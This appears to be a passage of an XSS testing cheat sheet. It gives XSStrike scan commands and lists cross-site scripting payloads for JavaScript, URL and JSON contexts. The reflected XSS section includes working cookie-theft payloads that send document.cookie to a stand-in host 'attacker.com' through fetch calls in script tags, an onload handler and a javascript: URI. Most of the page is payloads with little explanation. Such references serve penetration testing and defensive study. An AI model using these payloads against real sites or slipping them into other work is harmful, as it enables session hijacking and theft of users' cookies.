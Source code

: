 ### Using XSStrike

```bash
# Basic scan
xsstrike -u "http://target.com/page?param=value"

# Step 2: Advanced scanning options
xsstrike -u "http://target.com/page?param=value" \
  --crawl          # Crawl the target
  --params         # Scan parameters
  --blind          # Test for blind XSS
  --headers        # Test headers
  --vectors        # Use custom vectors
  --skip-dom      # Skip DOM XSS scanning
  
# Step 3: Results analysis
1. Check reported vulnerabilities
2. Verify findings manually
3. Test suggested payloads
```

#### Context Tests

Tests XSS in different DOM contexts:

```javascript
# JavaScript Variable Context
var user = "USER_INPUT";          # String variable
var obj = {"key": "USER_INPUT"};  # Object property
var arr = ["USER_INPUT"];         # Array element

# URL Parameter Context
?param=<script>alert(1)</script>  # Basic URL injection
?param=javascript:alert(1)        # JavaScript protocol
?param=data:text/html,<script>alert(1)</script>  # Data protocol

# JSON Context
{"key":"<script>alert(1)</script>"}  # JSON string
{"key":"</script><script>alert(1)</script>"}  # Script tag break
```

## Attack Vectors

### Reflected XSS

XSS payload is reflected back in the server's immediate response:

```javascript
# Basic Script Injection
<script>alert(document.cookie)</script>
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

# Event Handler Injection
<img src=x onerror="alert(document.cookie)">
<body onload="fetch('https://attacker.com?cookie='+document.cookie)">

# JavaScript Protocol
javascript:alert(document.cookie)
javascript:fetch('https://attacker.com?cookie='+document.cookie)
```

